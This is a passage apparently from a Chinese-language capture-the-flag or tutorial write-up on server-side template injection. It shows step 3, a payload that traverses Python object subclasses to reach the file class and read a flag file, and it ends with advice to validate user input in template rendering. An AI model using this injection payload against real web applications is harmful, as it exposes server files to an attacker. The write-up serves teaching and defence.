 ![](ssti/9.png)
<br>

3、读取文件类，<type ‘file’> file位置一般为40,  
输入`{{().__class__.__base__.__subclasses__()[40]('fl4g').read()}}`获取flag
![](ssti/10.png)
<br>

<br>
所以在开发Web应用程序时，始终要警惕并避免直接使用用户输入构造动态内容，尤其是在模板渲染过程中。对用户输入进行严格的验证和过滤，以及遵循最佳的安全实践，是保护系统免受SSTI等安全威胁的关键。
